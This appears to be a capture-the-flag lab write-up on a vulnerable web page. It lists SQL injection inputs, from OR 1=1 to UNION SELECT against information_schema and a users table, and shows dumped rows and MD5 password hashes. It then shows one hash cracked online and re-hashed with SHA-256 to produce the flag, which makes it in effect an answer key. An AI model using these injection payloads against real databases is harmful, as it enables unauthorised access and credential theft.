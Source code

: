 
# " OR 1=1 --

* You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\" OR 1=1 --' at line 1

# 1 OR 1=1 --

* 
ID: 1 OR 1=1 -- 
First name: Barack Hussein
Surname : Obama
ID: 1 OR 1=1 -- 
First name: Adolf
Surname : Hitler
ID: 1 OR 1=1 -- 
First name: Joseph
Surname : Staline
ID: 1 OR 1=1 -- 
First name: Flag
Surname : GetThe

# 1 UNION SELECT table_name, column_name FROM information_schema.columns

# 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users--


* 
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: Barack Hussein
Surname : Obama
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: Adolf
Surname : Hitler
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: Joseph
Surname : Staline
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: Flag
Surname : GetThe
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

https://www.md5online.org/md5-decrypt.html

5ff9d0165b4f92b14994e5c685cdce28 =>  FortyTwo

fortytwo

https://emn178.github.io/online-tools/sha256.html

fortytwo => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5